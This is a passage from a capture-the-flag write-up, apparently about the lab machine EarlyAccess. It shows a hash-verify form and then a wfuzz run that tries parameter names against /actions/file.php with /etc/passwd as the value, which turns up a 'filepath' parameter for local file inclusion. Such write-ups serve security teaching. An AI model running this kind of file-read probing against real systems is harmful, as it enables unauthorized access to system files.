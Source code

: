 Clicking on “Hash” at the top changes the form to “Verify” mode:

![image-20210818154825495](https://0xdfimages.gitlab.io/img/image-20210818154825495.png)

Here I can enter a hash and a password and see if they match, and this is another POST to the same endpoint, but with the body:

```

action=verify&password=0xdf&hash=465e929fc1e0853025faad58fc8cb47d&hash_function=md5

```

It shows the match:

![image-20210818155126434](https://0xdfimages.gitlab.io/img/image-20210818155126434.png)

If I put in the wrong hash:

![image-20210818155253104](https://0xdfimages.gitlab.io/img/image-20210818155253104.png)

A GET request to `/actions/hash.php` just redirects back to `/home.php`.

### Find LFI

Given the presence of `/actions/hash.php`, I’ll check for `/actions/file.php`, and it’s there:

![image-20210818155647230](https://0xdfimages.gitlab.io/img/image-20210818155647230.png)

Adding `?file=/etc/passwd` to the end of the url doesn’t change the error. I’ll use `wfuzz` to see if I can find a parameter that would return something different. I’ll give `wfuzz` the url (`-u`) of `http://dev.earlyaccess.htb/actions/file.php?FUZZ=/etc/passwd`, where it will replace `FUZZ` with each word from the wordlist given (`-w`). I’m using `--hh 35` to hide all responses of length 35 characters. To find that number, I just started without any `-hh`, and saw a bunch of responses that were 35 characters, so I want to hide that default case.

```

oxdf@hacky$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://dev.earlyaccess.htb/actions/file.php?FUZZ=/etc/passwd --hh 35
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.earlyaccess.htb/actions/file.php?FUZZ=/etc/passwd
Total requests: 2588

=====================================================================
ID           Response   Lines    Word       Chars       Payload                              
=====================================================================

000001316:   500        0 L      10 W       89 Ch       "filepath"                           

Total time: 48.76479
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 53.07106

```

